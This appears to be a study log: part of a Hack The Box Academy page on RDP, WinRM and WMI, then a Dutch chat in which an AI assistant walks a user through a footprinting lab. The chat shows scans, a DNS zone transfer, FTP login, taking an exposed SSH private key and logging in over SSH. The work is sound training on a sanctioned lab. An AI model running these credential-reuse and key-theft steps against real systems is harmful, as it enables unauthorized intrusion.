[16:37:47:600] [95319:95320] [ERROR][com.freerdp.crypto] - ILF-SQL-01

[16:37:47:600] [95319:95320] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!

Certificate details for 10.129.201.248:3389 (RDP-Server):

Common Name: ILF-SQL-01

Subject: CN = ILF-SQL-01

Issuer: CN = ILF-SQL-01

Thumbprint: b7:5f:00:ca:91:00:0a:29:0c:b5:14:21:f3:b0:ca:9e:af:8c:62:d6:dc:f9:50:ec:ac:06:38:1f:c5:d6:a9:39

The above X.509 certificate could not be verified, possibly because you do not have

the CA certificate in your certificate store, or the certificate has expired.

Please look at the OpenSSL documentation on how to add a private CA to the store.


Do you trust the above certificate? (Y/T/N) y


[16:37:48:801] [95319:95320] [INFO][com.winpr.sspi.NTLM] - VERSION ={

[16:37:48:801] [95319:95320] [INFO][com.winpr.sspi.NTLM] - ProductMajorVersion: 6

[16:37:48:801] [95319:95320] [INFO][com.winpr.sspi.NTLM] - ProductMinorVersion: 1

[16:37:48:801] [95319:95320] [INFO][com.winpr.sspi.NTLM] - ProductBuild: 7601

[16:37:48:801] [95319:95320] [INFO][com.winpr.sspi.NTLM] - Reserved: 0x000000

After successful authentication, a new window will appear with access to the server's desktop to which we have connected.

WinRM

The Windows Remote Management (WinRM) is a simple

Windows integrated remote management protocol based on the command line.

WinRM uses the Simple Object Access Protocol (SOAP) to

establish connections to remote hosts and their applications. Therefore,

WinRM must be explicitly enabled and configured starting with Windows

10. WinRM relies on TCP ports 5985 and 5986 for communication, with the last port 5986 using HTTPS,

as ports 80 and 443 were previously used for this task. However, since

port 80 was mainly blocked for security reasons, the newer ports 5985

and 5986 are used today.

Another component that fits WinRM for administration is Windows Remote Shell (WinRS),

which lets us execute arbitrary commands on the remote system. The

program is even included on Windows 7 by default. Thus, with WinRM, it

is possible to execute a remote command on another server.

Services like remote sessions using PowerShell and event log merging require WinRM. It is enabled by default starting with the Windows Server 2012 version, but it must first be configured for older server versions and clients, and the necessary firewall exceptions created.

Footprinting the Service

As we already know, WinRM uses TCP ports 5985 (HTTP) and 5986 (HTTPS) by default, which we can scan using Nmap. However, often we will see that only HTTP (TCP 5985) is used instead of HTTPS (TCP 5986).


Nmap WinRM


Windows Remote Management Protocols


leonwintweer@htb[/htb]$ nmap -sV -sC 10.129.201.248 -p5985,5986 --disable-arp-ping -nStarting Nmap 7.92 ( https://nmap.org ) at 2021-11-06 16:31 CET

Nmap scan report for 10.129.201.248

Host is up (0.030s latency).


PORT STATE SERVICE VERSION

5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

|_http-title: Not Found

|_http-server-header: Microsoft-HTTPAPI/2.0

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds

If we want to find out whether one or more remote servers can be

reached via WinRM, we can easily do this with the help of PowerShell.

The Test-WsMan

cmdlet is responsible for this, and the host's name in question is

passed to it. In Linux-based environments, we can use the tool called evil-winrm, another penetration testing tool designed to interact with WinRM.


Windows Remote Management Protocols


leonwintweer@htb[/htb]$ evil-winrm -i 10.129.201.248 -u Cry0l1t3 -p P455w0rD!Evil-WinRM shell v3.3


Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machineData: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completionInfo: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Cry0l1t3\Documents>

WMI

Windows Management Instrumentation (WMI) is Microsoft's implementation and also an extension of the Common Information Model (CIM), core functionality of the standardized Web-Based Enterprise Management (WBEM)

for the Windows platform. WMI allows read and write access to almost

all settings on Windows systems. Understandably, this makes it the most

critical interface in the Windows environment for the administration and

remote maintenance of Windows computers, regardless of whether they are

PCs or servers. WMI is typically accessed via PowerShell, VBScript, or

the Windows Management Instrumentation Console (WMIC). WMI is not a single program but consists of several programs and various databases, also known as repositories.

Footprinting the Service

The initialization of the WMI communication always takes place on TCP port 135,

and after the successful establishment of the connection, the

communication is moved to a random port. For example, the program wmiexec.py from the Impacket toolkit can be used for this.


WMIexec.py


Windows Remote Management Protocols


leonwintweer@htb[/htb]$ /usr/share/doc/python3-impacket/examples/wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation


[*] SMBv3.0 dialect used

ILF-SQL-01

Again, it is necessary to mention that the knowledge gained from

installing these services and playing around with the configurations on

our own Windows Server VM for gaining experience and developing the

functional principle and the administrator's point of view cannot be

replaced by reading manuals. Therefore, we strongly recommend setting up

your own Windows Server, experimenting with the settings, and scanning

these services repeatedly to see the differences in the results.


+10 Streak pts


Table of Contents


Introduction

Infrastructure Based Enumeration

Host Based Enumeration

Remote Management Protocols

Skills Assessment

My Workstation


OFFLINE


/ 1 spawns left


Powered by  


Dit is de vertaling van pagina 18, die zich richt op de protocollen voor het beheer van Windows-omgevingen op afstand.
Windows Remote Management Protocollen

Windows-servers kunnen op afstand worden beheerd via diverse ingebouwde componenten. Sinds Windows Server 2016 staat extern beheer standaard ingeschakeld. Dit wordt mogelijk gemaakt door de WS-Management-specificatie, waarmee hardware en software via scripts of API's kunnen worden aangestuurd.

De drie belangrijkste componenten zijn:

    Remote Desktop Protocol (RDP)

    Windows Remote Management (WinRM)

    Windows Management Instrumentation (WMI)

RDP (Remote Desktop Protocol)

RDP biedt een grafische interface (GUI) om een Windows-computer op afstand te besturen.

    Poort: Standaard TCP/UDP 3389.

    Beveiliging: Gebruikt TLS/SSL voor versleuteling. Veel systemen gebruiken echter standaard zelfondertekende certificaten, wat ze kwetsbaar maakt voor Man-In-The-Middle aanvallen (waarschuwing: "Certificate Name Mismatch").

    NLA: Network Level Authentication (NLA) is een beveiligingslaag die vereist dat een gebruiker zich eerst authenticeert voordat een volledige RDP-sessie wordt opgebouwd.

Footprinting van RDP

Met Nmap kunnen we controleren of NLA actief is en de computernaam achterhalen:
Bash

nmap -sV -sC 10.129.201.248 -p3389 --script rdp*

WinRM (Windows Remote Management)

WinRM is een command-line protocol gebaseerd op het SOAP-protocol (Simple Object Access Protocol). Het is de standaard voor PowerShell Remoting.

    Poorten: TCP 5985 (HTTP) en TCP 5986 (HTTPS).

    Tools:

        Windows: Test-WsMan (PowerShell).

        Linux: evil-winrm. Dit is de favoriete tool van penetratietesters voor een interactieve PowerShell-shell.

Voorbeeld met Evil-WinRM:
Bash

evil-winrm -i 10.129.201.248 -u Cry0l1t3 -p P455w0rD!

WMI (Windows Management Instrumentation)

WMI is de meest kritieke interface voor systeembeheer binnen Windows. Het biedt lees- en schrijftoegang tot vrijwel alle instellingen van het besturingssysteem.

    Werking: De communicatie start altijd op TCP poort 135. Na het leggen van het eerste contact wordt de dataverbinding verplaatst naar een willekeurige hoge poort.

    Tooling: Penetratietesters gebruiken vaak wmiexec.py (onderdeel van de Impacket toolkit) om op afstand commando's uit te voeren via WMI.

Voorbeeld met WMIexec:
Bash

wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"

Belangrijke Samenvatting voor Pentesting
Protocol	Poort	Belangrijkste Kenmerk voor Pentester
RDP	3389	GUI-toegang, controleer op NLA en zwakke wachtwoorden.
WinRM	5985/5986	Ideaal voor een stabiele PowerShell-shell op afstand.
WMI	135	Krachtig voor command-uitvoering; vaak minder goed gemonitord dan RDP.

Advies: Net als bij Linux-protocollen, is de beste manier om dit te leren door zelf een Windows VM op te zetten en te experimenteren met deze instellingen.

Zal ik je helpen bij het uitvoeren van een scan om te zien welke van deze Windows-services actief zijn op je huidige target?

labje doen:


Footprinting

 


Page 19

Footprinting Lab - Easy


Footprinting Lab - Easy

We were commissioned by the company Inlanefreight Ltd to

test three different servers in their internal network. The company

uses many different services, and the IT security department felt that a

penetration test was necessary to gain insight into their overall

security posture.

The first server is an internal DNS server that needs to be

investigated. In particular, our client wants to know what information

we can get out of these services and how this information could be used

against its infrastructure. Our goal is to gather as much information as

possible about the server and find ways to use that information against

the company. However, our client has made it clear that it is forbidden

to attack the services aggressively using exploits, as these services

are in production.

Additionally, our teammates have found the following credentials

"ceil:qwer1234", and they pointed out that some of the company's

employees were talking about SSH keys on a forum.

The administrators have stored a flag.txt file on this

server to track our progress and measure success. Fully enumerate the

target and submit the contents of this file as proof.


VPN Servers


Warning: Each

time you "Switch",

your connection keys are regenerated and you must re-download your VPN connection file.


All VM instances associated with the old VPN Server will be terminated when switching to

a new VPN server.


Existing PwnBox instances will automatically switch to the new VPN server.


PROTOCOL


UDP

1337


TCP

443


Dit is een klassieke Internal Footprinting opdracht waarbij we verschillende diensten moeten combineren. Onze focus ligt op DNS, maar we hebben ook een tip gekregen over SSH-sleutels en inloggegevens.

Laten we stap voor stap te werk gaan om de flag.txt te vinden zonder agressieve exploits te gebruiken.
🗺️ Fase 1: Network Scanning

We moeten eerst weten welke poorten openstaan. Gezien de tekst verwachten we in ieder geval DNS (53), SSH (22) en mogelijk Rsync of SMB (gezien de hint over het delen van bestanden/sleutels).

Voer een initiële scan uit:
Bash

sudo nmap -sV -sC -p- --min-rate 1000 10.129.201.248

🌐 Fase 2: DNS Enumeratie

DNS is ons hoofddoel. We willen weten welke andere hosts er bestaan via een Zone Transfer (AXFR). Als dit lukt, krijgen we een lijst met alle subdomeinen.

    Zoek de domeinnaam: Soms staat deze in de Nmap output, anders proberen we een reverse lookup.

    Probeer een Zone Transfer:

Bash

# Vervang 'inlanefreight.htb' als je een andere domeinnaam vindt
dig axfr inlanefreight.htb @10.129.201.248

📂 Fase 3: De SSH-sleutel hint (Rsync / SMB / NFS)

De tekst zegt dat medewerkers op een forum praatten over SSH-keys. Dit betekent vaak dat er een publieke share is waar deze per ongeluk op staan.

Check op Rsync (Poort 873): Herinner je de vorige pagina? Laten we kijken of er shares openstaan waar die sleutels liggen.
Bash

rsync --list-only 10.129.201.248::

Als je een share ziet (bijv. dev of backup), kijk dan of er een .ssh map in zit:
Bash

rsync -av rsync://10.129.201.248/naam_van_share/.ssh/ ./local_ssh_keys/

🔑 Fase 4: SSH Toegang

We hebben credentials gekregen: ceil:qwer1234. Zodra we de juiste hostnaam hebben (via DNS) of gewoon het IP gebruiken, proberen we in te loggen om de vlag te pakken.
Bash

ssh ceil@10.129.201.248
# Wachtwoord: qwer1234

Zodra je binnen bent, zoek je de vlag:
Bash

cat /home/ceil/flag.txt
# Of zoek over het hele systeem
find / -name flag.txt 2>/dev/null

💡 Strategisch Advies

    DNS: Als dig niets geeft, probeer dan nslookup of dnsrecon.

    Credentials: Als ceil niet werkt op SSH, probeer dan of je met deze gegevens kunt inloggen op een gevonden Rsync share of SMB share.

    SSH Keys: Als je een id_rsa (private key) vindt via Rsync, vergeet dan niet de rechten aan te passen (chmod 600 id_rsa) voordat je inlogt met ssh -i id_rsa user@host.

Wat is de output van je eerste Nmap scan? Zodra we de open poorten zien, kunnen we bepalen waar die SSH-keys waarschijnlijk verstopt zitten!

10.129.4.181

Laten we beginnen met de footprinting van dit nieuwe target (10.129.4.181). Gezien de context van het "Footprinting Lab - Easy", gaan we op zoek naar DNS, SSH, en gedeelde mappen waar die SSH-sleutels waarover gesproken werd mogelijk te vinden zijn.
🔍 Stap 1: Poortscan (Nmap)

We voeren een uitgebreide scan uit om te zien welke diensten er draaien.

Voer dit uit in je terminal:
Bash

sudo nmap -sV -sC -p- --min-rate 1000 10.129.4.181

🌐 Stap 2: DNS Enumeratie (Poort 53)

Het lab vermeldt dat dit een DNS-server is. We willen kijken of we een Zone Transfer (AXFR) kunnen uitvoeren om alle subdomeinen en hostnamen van Inlanefreight te zien.

    Vind de domeinnaam: Kijk in de Nmap output of probeer een reverse lookup:
    Bash

nslookup 10.129.4.181 10.129.4.181

Probeer de Zone Transfer:
Bash

    dig axfr inlanefreight.htb @10.129.4.181

📂 Stap 3: Zoeken naar de SSH-sleutels (Rsync)

De hint over de SSH-sleutels wijst vaak naar een verkeerd geconfigureerde Rsync-dienst (poort 873). Laten we kijken of er shares toegankelijk zijn zonder wachtwoord:
Bash

rsync --list-only 10.129.4.181::

Als je een share ziet (bijvoorbeeld conf of dev), kijk dan of daar de .ssh map met sleutels in staat:
Bash

rsync -av rsync://10.129.4.181/NAAM_VAN_SHARE

🔑 Stap 4: Inloggen en de Vlag pakken

We hebben de credentials ceil:qwer1234. Zodra je weet welke hostnamen er zijn (via DNS) of als je direct op het IP mag inloggen:
Bash

ssh ceil@10.129.4.181

Wachtwoord: qwer1234

Zodra je binnen bent, zoek je naar flag.txt:
Bash

find / -name flag.txt 2>/dev/null
cat /home/ceil/flag.txt

💡 Waar moet je op letten?

    DNS: Als inlanefreight.htb niet werkt, kijk dan goed in de Nmap-output of er een andere domeinnaam (bijv. internal.inlanefreight.htb) wordt genoemd.

    Rsync: Dit is vaak de plek waar die "besproken" SSH-sleutels te vinden zijn als de credentials niet direct werken op de hoofdmachine.

Wat zie je in de output van je Nmap scan? Deel de open poorten, dan bepalen we de volgende zet!

┌──(kali㉿kali)-[~]

└─$ nmap 10.129.4.181

Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 09:15 -0500

Nmap scan report for 10.129.4.181

Host is up (0.066s latency).

Not shown: 996 closed tcp ports (reset)

PORT     STATE SERVICE

21/tcp   open  ftp

22/tcp   open  ssh

53/tcp   open  domain

2121/tcp open  ccproxy-ftp

Je hebt een interessant resultaat! We zien FTP (21), SSH (22), DNS (53) en een alternatieve FTP-poort (2121).

Gezien de hint over de medewerkers die over "SSH keys op een forum" praatten, is de kans groot dat we die sleutels kunnen vinden via FTP of DNS.

Laten we deze drie stappen volgen:
🌐 Stap 1: DNS Zone Transfer

Omdat poort 53 open staat, gaan we eerst proberen om alle domeininformatie binnen te halen. Dit kan ons vertellen of er andere subdomeinen zijn.

Probeer eerst de domeinnaam te achterhalen:
Bash

dig -x 10.129.4.181 @10.129.4.181

Als je een domeinnaam ziet (waarschijnlijk inlanefreight.htb), probeer dan de Zone Transfer:
Bash

dig axfr inlanefreight.htb @10.129.4.181

📂 Stap 2: FTP Inspectie (Poort 21 & 2121)

We hebben de credentials ceil:qwer1234. Laten we kijken of we hiermee op een van de FTP-servers kunnen inloggen om die SSH-sleutels te vinden.

Probeer eerst poort 21:
Bash

ftp 10.129.4.181
# Gebruikersnaam: ceil
# Wachtwoord: qwer1234

Als dat niet werkt, probeer dan de andere poort:
Bash

ftp 10.129.4.181 2121

Tip: Als je binnen bent, gebruik ls -a om verborgen bestanden te zien. Zoek naar een .ssh map of bestanden zoals id_rsa.
🔑 Stap 3: SSH Login & Vlag

Zodra je de SSH-sleutel hebt gevonden (of als de credentials direct op SSH werken), log je in om de vlag te pakken.
Bash

ssh ceil@10.129.4.181

Mocht SSH om een sleutel vragen die je op de FTP hebt gevonden:

    Download de sleutel (get id_rsa).

    Geef hem de juiste rechten: chmod 600 id_rsa.

    Log in: ssh -i id_rsa ceil@10.129.4.181.

💡 Wat is je volgende zet?

Probeer eerst de DNS Zone Transfer en kijk of je met de credentials op FTP kunt komen.

Wat zie je als je probeert in te loggen op FTP met ceil:qwer1234? Of geeft de DNS scan interessante nieuwe hostnames?

┌──(kali㉿kali)-[~]

└─$ dig -x 10.129.4.181 @10.129.4.181


; <<>> DiG 9.20.15-2-Debian <<>> -x 10.129.4.181 @10.129.4.181

;; global options: +cmd

;; Got answer:

;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 63283

;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; WARNING: recursion requested but not available


;; OPT PSEUDOSECTION:

; EDNS: version: 0, flags:; udp: 4096

; COOKIE: d1c9e428b3d0f0a701000000697382b32ae6a682143ba28b (good)

;; QUESTION SECTION:

;181.4.129.10.in-addr.arpa.     IN      PTR


;; AUTHORITY SECTION:

10.IN-ADDR.ARPA.        86400   IN      SOA     10.IN-ADDR.ARPA. . 0 28800 7200 604800 86400


;; Query time: 60 msec

;; SERVER: 10.129.4.181#53(10.129.4.181) (UDP)

;; WHEN: Fri Jan 23 09:16:50 EST 2026

;; MSG SIZE  rcvd: 132


                                                  

De reverse lookup geeft een NXDOMAIN, wat betekent dat de server geen PTR-record heeft voor zijn eigen IP-adres. Geen paniek, dit gebeurt vaak! We moeten de domeinnaam op een andere manier raden of achterhalen.

Bij Hack The Box is de domeinnaam bijna altijd inlanefreight.htb. Laten we die direct testen voor de Zone Transfer (AXFR).
🌐 Stap 1: Handmatige Zone Transfer

Probeer de AXFR met de standaard domeinnaam. Dit is de meest effectieve manier om alle hosts in één keer te zien:
Bash

dig axfr inlanefreight.htb @10.129.4.181

Als dat niet werkt, kun je proberen de "SOA" (Start of Authority) op te vragen om de juiste domeinnaam te bevestigen:
Bash

dig SOA inlanefreight.htb @10.129.4.181

📂 Stap 2: FTP Check (Poort 21 & 2121)

Terwijl DNS draait, kunnen we de FTP-poorten controleren met de credentials die je hebt (ceil:qwer1234). De hint over "SSH keys" suggereert dat er ergens een bestand rondslingert.

Probeer in te loggen op de standaard FTP poort:
Bash

ftp 10.129.4.181

(Gebruikersnaam: ceil | Wachtwoord: qwer1234)

Probeer ook de alternatieve poort:
Bash

ftp 10.129.4.181 2121

🔑 Wat we zoeken

Als je op de FTP komt:

    Gebruik ls -la om ook verborgen bestanden te zien.

    Zoek naar een map genaamd .ssh of een bestand zoals id_rsa, id_rsa.pub, of authorized_keys.

    Download alles wat interessant lijkt met get <bestandsnaam>.

Lukt de dig axfr met inlanefreight.htb, of krijg je een foutmelding? Zo ja, deel de output, dan kijken we of er een ander subdomein verstopt zit!

┌──(kali㉿kali)-[~]

└─$ dig -x 10.129.4.181 @10.129.4.181


; <<>> DiG 9.20.15-2-Debian <<>> -x 10.129.4.181 @10.129.4.181

;; global options: +cmd

;; Got answer:

;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 63283

;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; WARNING: recursion requested but not available


;; OPT PSEUDOSECTION:

; EDNS: version: 0, flags:; udp: 4096

; COOKIE: d1c9e428b3d0f0a701000000697382b32ae6a682143ba28b (good)

;; QUESTION SECTION:

;181.4.129.10.in-addr.arpa.     IN      PTR


;; AUTHORITY SECTION:

10.IN-ADDR.ARPA.        86400   IN      SOA     10.IN-ADDR.ARPA. . 0 28800 7200 604800 86400


;; Query time: 60 msec

;; SERVER: 10.129.4.181#53(10.129.4.181) (UDP)

;; WHEN: Fri Jan 23 09:16:50 EST 2026

;; MSG SIZE  rcvd: 132


                                                                                                                   

┌──(kali㉿kali)-[~]

└─$ dig axfr inlanefreight.htb @10.129.4.181


; <<>> DiG 9.20.15-2-Debian <<>> axfr inlanefreight.htb @10.129.4.181

;; global options: +cmd

inlanefreight.htb.      604800  IN      SOA     inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800

inlanefreight.htb.      604800  IN      TXT     "MS=ms97310371"

inlanefreight.htb.      604800  IN      TXT     "atlassian-domain-verification=t1rKCy68JFszSdCKVpw64A1QksWdXuYFUeSXKU"

inlanefreight.htb.      604800  IN      TXT     "v=spf1 include:mailgun.org include:_spf.google.com include:spf.protection.outlook.com include:_spf.atlassian.net ip4:10.129.124.8 ip4:10.129.127.2 ip4:10.129.42.106 ~all"

inlanefreight.htb.      604800  IN      NS      ns.inlanefreight.htb.

app.inlanefreight.htb.  604800  IN      A       10.129.18.15

internal.inlanefreight.htb. 604800 IN   A       10.129.1.6

mail1.inlanefreight.htb. 604800 IN      A       10.129.18.201

ns.inlanefreight.htb.   604800  IN      A       10.129.34.136

inlanefreight.htb.      604800  IN      SOA     inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800

;; Query time: 64 msec

;; SERVER: 10.129.4.181#53(10.129.4.181) (TCP)

;; WHEN: Fri Jan 23 09:17:38 EST 2026

;; XFR size: 10 records (messages 1, bytes 540)


                                                                                                                   

┌──(kali㉿kali)-[~]

└─$ dig axfr inlanefreight.htb @10.129.4.181


; <<>> DiG 9.20.15-2-Debian <<>> axfr inlanefreight.htb @10.129.4.181

;; global options: +cmd

inlanefreight.htb.      604800  IN      SOA     inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800

inlanefreight.htb.      604800  IN      TXT     "MS=ms97310371"

inlanefreight.htb.      604800  IN      TXT     "atlassian-domain-verification=t1rKCy68JFszSdCKVpw64A1QksWdXuYFUeSXKU"

inlanefreight.htb.      604800  IN      TXT     "v=spf1 include:mailgun.org include:_spf.google.com include:spf.protection.outlook.com include:_spf.atlassian.net ip4:10.129.124.8 ip4:10.129.127.2 ip4:10.129.42.106 ~all"

inlanefreight.htb.      604800  IN      NS      ns.inlanefreight.htb.

app.inlanefreight.htb.  604800  IN      A       10.129.18.15

internal.inlanefreight.htb. 604800 IN   A       10.129.1.6

mail1.inlanefreight.htb. 604800 IN      A       10.129.18.201

ns.inlanefreight.htb.   604800  IN      A       10.129.34.136

inlanefreight.htb.      604800  IN      SOA     inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800

;; Query time: 64 msec

;; SERVER: 10.129.4.181#53(10.129.4.181) (TCP)

;; WHEN: Fri Jan 23 09:18:27 EST 2026

;; XFR size: 10 records (messages 1, bytes 540)

Lekker gewerkt! De Zone Transfer (AXFR) is geslaagd. Je hebt nu een lijst met subdomeinen en IP-adressen van de interne infrastructuur van InlaneFreight.

Hoewel we een lijst met IPs hebben, is er één subdomein dat eruit springt voor een "Easy" lab: internal.inlanefreight.htb.

Laten we nu de focus verleggen naar de andere diensten die je in je eerste scan vond (FTP op 21 en 2121), want daar liggen waarschijnlijk die SSH-sleutels waar de medewerkers het over hadden.
📂 Stap 1: FTP Enumeratie

Je hebt de credentials ceil:qwer1234. Laten we kijken of we hiermee toegang krijgen tot bestanden.

    Probeer in te loggen op de standaard poort:
    Bash

ftp 10.129.4.181

    Gebruikersnaam: ceil

    Wachtwoord: qwer1234

Als dat niet werkt, probeer poort 2121:
Bash

    ftp 10.129.4.181 2121

🔍 Stap 2: Zoeken naar de vlag of SSH-sleutels

Zodra je bent ingelogd op FTP:

    Typ ls -la om alle bestanden te zien (ook de verborgen bestanden).

    Zoek naar flag.txt of een map zoals .ssh.

    Als je een SSH-sleutel vindt (bijv. id_rsa), download deze dan naar je eigen machine met het commando:
    Codefragment

    get id_rsa

🔑 Stap 3: SSH naar de server

Als je de vlag niet direct op de FTP vindt, maar wel een SSH-sleutel (of als je gewoon wilt inloggen met de credentials):
Bash

ssh ceil@10.129.4.181

Mocht je een id_rsa sleutel hebben gedownload:
Bash

chmod 600 id_rsa
ssh -i id_rsa ceil@10.129.4.181

Wat zie je wanneer je inlogt op de FTP-server? Staan daar interessante bestanden? (Kijk vooral of er een map genaamd internal of .ssh aanwezig is).

                                                                                                                   

┌──(kali㉿kali)-[~]

└─$ ftp 10.129.4.181

Connected to 10.129.4.181.

220 ProFTPD Server (ftp.int.inlanefreight.htb) [10.129.4.181]

Name (10.129.4.181:kali): ceil

331 Password required for ceil

Password: 

230 User ceil logged in

Remote system type is UNIX.

Using binary mode to transfer files.

ftp> ls -la

229 Entering Extended Passive Mode (|||46578|)

150 Opening ASCII mode data connection for file list

drwxr-xr-x   2 root     root         4096 Nov 10  2021 .

drwxr-xr-x   2 root     root         4096 Nov 10  2021 ..

226 Transfer complete

Je bent binnen, maar die map lijkt op het eerste gezicht leeg. Echter, de banner verklapt iets belangrijks: ftp.int.inlanefreight.htb.

Aangezien de medewerkers het over SSH-sleutels op een forum hadden en de normale FTP-map leeg is, moeten we naar die andere FTP-poort kijken die je eerder vond: 2121. Vaak wordt een alternatieve poort gebruikt voor "test" omgevingen of minder goed beveiligde shares.
📂 Stap 1: Check de andere FTP-poort (2121)

Probeer op precies dezelfde manier in te loggen op poort 2121:
Bash

ftp 10.129.4.181 2121

    Username: ceil

    Password: qwer1234

📂 Stap 2: Zoek naar verborgen mappen

Als poort 2121 ook leeg lijkt, is er een kans dat de bestanden in een andere map staan waar je wel rechten op hebt, maar die niet de "home" map is. Gebruik cd .. om omhoog te navigeren of kijk of er een specifieke map is voor de "forum" data.
🌐 Stap 3: Terug naar de DNS informatie

In je dig axfr zag je ook: internal.inlanefreight.htb. 604800 IN A 10.129.1.6

Het is mogelijk dat de vlag of de sleutels niet op de DNS-server zelf staan (10.129.4.181), maar op die interne host (10.129.1.6). Probeer met de credentials die je hebt (ceil:qwer1234) in te loggen via SSH op dat andere IP:
Bash

ssh ceil@10.129.1.6

💡 Wat is je plan?

    Check eerst FTP poort 2121 op 10.129.4.181.

    Als daar niets staat, probeer SSH op 10.129.4.181.

    Als dat ook niet werkt, probeer de credentials op de host van de zone transfer: 10.129.1.6.

Wat zie je op FTP poort 2121?

┌──(kali㉿kali)-[~]

└─$ ftp 10.129.4.181 2121

Connected to 10.129.4.181.

220 ProFTPD Server (Ceil's FTP) [10.129.4.181]

Name (10.129.4.181:kali): ceil

331 Password required for ceil

Password: 

230 User ceil logged in

Remote system type is UNIX.

Using binary mode to transfer files.

ftp> ls -la

229 Entering Extended Passive Mode (|||7853|)

150 Opening ASCII mode data connection for file list

drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 .

drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..

-rw-------   1 ceil     ceil          294 Nov 10  2021 .bash_history

-rw-r--r--   1 ceil     ceil          220 Nov 10  2021 .bash_logout

-rw-r--r--   1 ceil     ceil         3771 Nov 10  2021 .bashrc

drwx------   2 ceil     ceil         4096 Nov 10  2021 .cache

-rw-r--r--   1 ceil     ceil          807 Nov 10  2021 .profile

drwx------   2 ceil     ceil         4096 Nov 10  2021 .ssh

-rw-------   1 ceil     ceil          759 Nov 10  2021 .viminfo

226 Transfer complete

ftp> 

Bingo! Daar zijn ze. Je ziet de map .ssh staan op poort 2121. Dit is precies waar de medewerkers het over hadden.

Omdat de vlag op de server staat om je voortgang te meten, is de kans groot dat we via SSH moeten inloggen om hem te lezen. Laten we die sleutels ophalen.
📂 Stap 1: De SSH-sleutels ophalen

Ga de map in en kijk wat erin staat:
Codefragment

cd .ssh
ls -la

Je zult waarschijnlijk bestanden zien zoals id_rsa (de private sleutel) en authorized_keys. Download de private sleutel naar je Kali-machine:
Codefragment

get id_rsa
exit

🔑 Stap 2: Inloggen via SSH

Nu je de sleutel hebt, gaan we deze gebruiken om als ceil in te loggen op de server (poort 22).

    Rechten aanpassen: SSH weigert sleutels die "te openbaar" zijn.
    Bash

chmod 600 id_rsa

Inloggen:
Bash

    ssh -i id_rsa ceil@10.129.4.181

🚩 Stap 3: De vlag vinden

Zodra je bent ingelogd via SSH, ben je een echte gebruiker op het systeem. Zoek naar flag.txt:
Bash

ls -l
cat flag.txt

Mocht het niet in je home-map staan, gebruik dan: find . -name "flag.txt".

Wat zit er in de .ssh map op de FTP? Zie je daar de id_rsa staan?

This key is not known by any other names.

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.4.181' (ED25519) to the list of known hosts.

** WARNING: connection is not using a post-quantum key exchange algorithm.

** This session may be vulnerable to "store now, decrypt later" attacks.

** The server may need to be upgraded. See https://openssh.com/pq.html

Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-90-generic x86_64)


 * Documentation:  https://help.ubuntu.com

 * Management:     https://landscape.canonical.com

 * Support:        https://ubuntu.com/advantage


  System information as of Fri 23 Jan 2026 02:22:56 PM UTC


  System load:  0.0               Processes:               178

  Usage of /:   86.3% of 3.87GB   Users logged in:         0

  Memory usage: 14%               IPv4 address for ens192: 10.129.4.181

  Swap usage:   0%


  => / is using 86.3% of 3.87GB


 * Super-optimized for small spaces - read how we shrank the memory

   footprint of MicroK8s to make it the smallest full K8s around.


   https://ubuntu.com/blog/microk8s-memory-optimisation


116 updates can be installed immediately.

1 of these updates is a security update.

To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.

To check for new updates run: sudo apt update


Last login: Wed Nov 10 05:48:02 2021 from 10.10.14.20

ceil@NIXEASY:~$ ls -la

total 36

drwxr-xr-x 4 ceil ceil 4096 Nov 10  2021 .

drwxr-xr-x 5 root root 4096 Nov 10  2021 ..

-rw------- 1 ceil ceil  294 Nov 10  2021 .bash_history

-rw-r--r-- 1 ceil ceil  220 Nov 10  2021 .bash_logout

-rw-r--r-- 1 ceil ceil 3771 Nov 10  2021 .bashrc

drwx------ 2 ceil ceil 4096 Nov 10  2021 .cache

-rw-r--r-- 1 ceil ceil  807 Nov 10  2021 .profile

drwx------ 2 ceil ceil 4096 Nov 10  2021 .ssh

-rw------- 1 ceil ceil  759 Nov 10  2021 .viminfo

ceil@NIXEASY:~$ cat flag.txt

cat: flag.txt: No such file or directory

ceil@NIXEASY:~$ 

Je bent er bijna! Je bent nu officieel binnen op de server NIXEASY. Omdat flag.txt niet direct in je home-directory staat, moeten we even de speurneus uithangen. In dit soort labs staat de vlag vaak op een plek die je dwingt om de rest van het systeem te verkennen.

Hier zijn drie plekken waar hij waarschijnlijk verstopt is:
1. De root van het systeem

Vaak staat een vlag direct in /.
Bash

ls /

2. Gebruik find (De meest effectieve methode)

Laat Linux het werk voor je doen. Dit commando zoekt op het hele systeem naar flag.txt en negeert foutmeldingen (zoals mappen waar je geen rechten voor hebt):
Bash

find / -name "flag.txt" 2>/dev/null

3. Kijk in de /var/www/ of /tmp mappen

Soms laten admins per ongeluk dingen achter in web-mappen of tijdelijke mappen:
Bash

ls -l /tmp
ls -l /var/www/html

Wat was de aanvalsketen?

